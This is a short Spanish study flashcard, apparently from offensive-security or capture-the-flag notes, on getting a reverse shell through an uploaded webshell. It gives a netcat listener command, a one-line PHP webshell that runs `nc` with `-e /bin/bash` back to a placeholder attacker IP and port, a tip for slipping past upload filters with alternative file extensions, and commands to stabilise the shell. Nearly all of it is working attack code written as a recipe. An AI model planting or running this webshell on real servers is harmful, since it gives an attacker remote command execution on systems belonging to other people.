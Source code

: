 **Flashcard 1 – Webshell básica con Netcat**

**Pregunta:** ¿Cómo subir y usar una webshell que ejecute `nc` para obtener una reverse shell?
**Respuesta:**

1. Listener: `nc -lvnp <PUERTO>`
2. Webshell PHP:

   ```php
   <?php system("nc <TU-IP> <PUERTO> -e /bin/bash"); ?>
   ```
3. Subir archivo al servidor (usar extensiones alternativas si hay filtro).
4. Ejecutar accediendo a la URL.
5. Estabilizar shell:

   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```

   Luego `stty raw -echo; fg` y `reset`.
